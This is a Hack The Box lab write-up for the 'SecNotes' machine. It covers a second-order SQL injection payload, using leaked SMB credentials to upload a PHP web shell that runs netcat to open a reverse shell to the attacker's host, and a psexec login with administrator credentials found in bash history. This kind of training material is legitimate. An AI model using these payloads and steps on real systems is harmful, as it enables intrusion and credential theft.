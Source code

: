 ```yaml
---
layout: post
title: Hack The Box - SecNotes
categories: hack-the-box
tags: [Windows, Linux, Web, SQLI, RCE, smb, Active Directory]
image: /hackthebox/secnotes/0.png
---
```

<hr>
### Quick Summary
#### Hey guys Today SecNotes retired. SecNotes was a very nice box and I really liked that it mixed between windows and linux , and that's because it was a windows box and it had windows subsystem for linux (WSL) installed.It was relatively easy. It's ip is 10.10.10.97 so let's jump right in.
![](/images/hackthebox/secnotes/0.png)
<hr>
### Nmap
#### We will start with scanning open ports and services with nmap like we always do so `nmap -sV -sT secnotes.htb`
![](/images/hackthebox/secnotes/1.png)
#### And we see http on port 80 and microsoft-ds on 445 which is smb actually.
#### So let's look at what's there on http
<br>
### HTTP
![](/images/hackthebox/secnotes/2.png)
#### A regular login page and there is an option to sign up , So let's sign up and see what's in there.
![](/images/hackthebox/secnotes/3.png)
![](/images/hackthebox/secnotes/4.png)
#### After we login we see this regular page : "Viewing Secure Notes for *Username*" , and there are some options like creating a note , changing password , sign out and contact. Of course we will do regular enumeration like checking for directories ,checking web vulnerabilities and stuff like that but i will just jump into the thing.
<br>
<hr>
### SQLI
#### If we tried to do sql injection in the registration form , it will work after we login (second order sqli). A simple payload like `OR 1 OR` :
![](/images/hackthebox/secnotes/5.png)
![](/images/hackthebox/secnotes/6.png)
#### And after we login we see some notes , most importantly "new site" :
![](/images/hackthebox/secnotes/7.png)
#### We got smb creds , so the next step is to login with smbclient
<br>
<hr>
### New Site
#### We will login with smbclient :
`smbclient //secnotes.htb/new-site -U "tyler"`
#### Then we will look at the contents of that share with `ls`
```
smb: \> ls
  .                                   D        0  Fri Jan 18 15:25:52 2019
  ..                                  D        0  Fri Jan 18 15:25:52 2019
  iisstart.htm                        A      696  Thu Jun 21 17:26:03 2018
  iisstart.png                        A    98757  Thu Jun 21 17:26:03 2018
  Microsoft                           D        0  Fri Jan 18 15:25:52 2019

```
#### We see stuff that is related to an http server , but that's not the server on port 80 , because it had more than just a png picture and html page. If we do another full port scan we will find an http server on port 8808.
#### you can do a full scan by specifying the port range like this `-p-` I already know it's port 8808 so i'm going to scan that port
![](/images/hackthebox/secnotes/8.png)
#### Now if we go to that port we will see a default page :
![](/images/hackthebox/secnotes/9.png)
#### And by looking at the source we see the png image we saw earlier on the smb share.
![](/images/hackthebox/secnotes/10.png)
#### So we can upload our shell to that server through smb then easily get a reverse shell.
<br>
<hr>
### Reverse shell and User
#### We will create a simple php file that executes nc.exe and connects back to us :
```
<?php
system('nc.exe -e cmd.exe 10.10.xx.xx 1337')
?>
```
#### Then we will put it on the server : from smb shell we do `put rev.php` we also need nc.exe . you can get it from [here](https://eternallybored.org/misc/netcat/) then we will do `put nc.exe`
#### Now when we visit secnotes.htb:8808/rev.php our listener should get a callback , and we got a rev shell !
![](/images/hackthebox/secnotes/11.png)
<hr>
### WSL
#### Let's take a look at the admin's Desktop
![](/images/hackthebox/secnotes/12.png)
#### There are some interesting stuff , but `bash.lnk` that's weird because we are on a windows machine , so windows subsystem for linux is installed on this machine. Let's find where is bash.exe
#### We will `cd /windows` then we will do `dir *.exe /b/s | findstr bash` and this will list recursively all the exe files then we will just pick the line that has bash in it , `findstr` is like `grep` in linux
![](/images/hackthebox/secnotes/13.png)
#### And we got the path , let's `cd` to it and execute bash.exe
![](/images/hackthebox/secnotes/14.png)
#### We will get a stable shell with python pty , We see that we are root on this subsystem. if we list the files in `/root` directory we don't see too much files , but we see `.bash_history` which is a very interesting thing to look at if you are enumerating a linux box so let's view that.
![](/images/hackthebox/secnotes/15.png)
<hr>
### Root
#### There's an smbclient command with the administrator creds, we will simply use [impacket](https://github.com/SecureAuthCorp/impacket)'s `psexec.py` to get a root shell , like we did in [Active](/hack-the-box/active/) 
`./psexec.py administrator@secnotes.htb`
![](/images/hackthebox/secnotes/16.png)
#### And we owned root!
<br>
<br>
#### That's it , Feedback is appreciated !
#### Don't forget to read the [previous write-ups](/categories) , Tweet about the write-up if you liked it , follow on twitter for awesome resources [@Ahm3d_H3sham](https://twitter.com/Ahm3d_H3sham)
#### Thanks for reading.
<br>
<br>
#### previous Hack The Box write-up : [Hack The Box - Oz](/hack-the-box/oz/)
#### next Hack The Box write-up : [Hack The Box - Dab](/hack-the-box/dab/)
<hr>
